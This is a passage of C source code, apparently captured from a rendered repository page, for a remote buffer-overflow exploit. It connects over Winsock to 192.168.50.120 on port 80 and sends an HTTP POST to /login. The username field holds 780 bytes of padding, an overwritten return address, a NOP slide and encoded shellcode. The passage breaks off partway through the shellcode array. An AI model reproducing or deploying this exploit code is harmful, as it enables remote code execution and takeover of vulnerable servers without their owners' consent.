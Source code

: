 ``` c
    {
        printf("[!] Failed. Error Code : %d", WSAGetLastError());
        return 1;
    }

    printf("[>] Initialised.\n");
    if ((s = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET)
    {
        printf("[!] Could not create socket : %d", WSAGetLastError());
    }

    printf("[>] Socket created.\n");
    server.sin_addr.s_addr = inet_addr("192.168.50.120");
    server.sin_family = AF_INET;
    server.sin_port = htons(80);

    if (connect(s, (struct sockaddr *)&server, sizeof(server)) < 0)
    {
        puts("[!] Connect error");
        return 1;
    }
    puts("[>] Connected");

    if (send(s, request, request_size, 0) < 0)
    {
        puts("[!] Send failed");
        return 1;
    }
    puts("\n[>] Request sent\n");
    closesocket(s);
    return 0;
}

void EvilRequest() {
    
    char request_one[] = "POST /login HTTP/1.1\r\n"
                        "Host: 192.168.50.120\r\n"
                        "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
                        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                        "Accept-Language: en-US,en;q=0.5\r\n"
                        <span custom-style="BoldCodeRed">"Referer: http://192.168.50.120/login\r\n"</span>
                        "Connection: close\r\n"
                        "Content-Type: application/x-www-form-urlencoded\r\n"
                        "Content-Length: ";
    char request_two[] = "\r\n\r\nusername=";

    int initial_buffer_size = 780;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
    unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
    
    
    unsigned char shellcode[] = 
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
   "\xdb\xcc\xbe\xa5\xcc\x28\x99\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
   "\x52\x31\x72\x17\x83\xc2\x04\x03\xd7\xdf\xca\x6c\xeb\x08\x88"
   "\x8f\x13\xc9\xed\x06\xf6\xf8\x2d\x7c\x73\xaa\x9d\xf6\xd1\x47"
   "\x55\x5a\xc1\xdc\x1b\x73\xe6\x55\x91\xa5\xc9\x66\x8a\x96\x48"
   "\xe5\xd1\xca\xaa\xd4\x19\x1f\xab\x11\x47\xd2\xf9\xca\x03\x41"
```
